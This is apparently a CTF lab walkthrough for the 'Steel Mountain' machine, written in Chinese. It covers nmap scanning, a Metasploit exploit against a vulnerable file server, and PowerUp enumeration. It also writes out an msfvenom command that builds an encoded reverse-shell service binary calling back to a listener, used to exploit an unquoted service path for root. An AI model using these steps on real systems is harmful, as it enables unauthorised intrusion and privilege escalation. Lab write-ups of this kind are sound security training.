 # Steel Mountain

### 1.Who is the employee of the month?
访问IP域名，浏览器工具查看图片名<br>
![Steel Mountain 1](./iamges/SteelMountain1.png)

### 2.Scan the machine with nmap. What is the other port running a web server on?
nmap扫描得到<br>
![Steel Mountain 2](./iamges/SteelMountain2.png)

### 3.Take a look at the other web server. What file server is running?
nmap扫描得到<br>
![Steel Mountain 3](./iamges/SteelMountain2.png)
![Steel Mountain 4](./iamges/SteelMountain3.png)

### 4.What is the CVE number to exploit this file server?
根据扫描到的服务在www.exploit-db.com中搜索<br>
![Steel Mountain 5](./iamges/SteelMountain4.png)

### 5.Use Metasploit to get an initial shell. What is the user flag?
进入msfconsole，使用search命令搜索CVE编号，use进去后设置目标IP和端口，run启动攻击<br>
![Steel Mountain 6](./iamges/SteelMountain5.png)

### 6.we can further enumerate the machine and escalate our privileges to root!
使用PowerUp.ps1脚本枚举提权向量，注意load加载powershell扩展<br>
![Steel Mountain 7](./iamges/SteelMountain6.png)

### 7.Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
![Steel Mountain 8](./iamges/SteelMountain6.png)

### 8.What is the root flag?
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.156.111 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
生成反弹shell，上传到靶机，sc关闭原服务，然后copy替换服务程序。nc设置一个侦听器，然后重新启动服务，即可获取root权限<br>
![Steel Mountain 9](./iamges/SteelMountain7.png)<br>
![Steel Mountain 10](./iamges/SteelMountain8.png)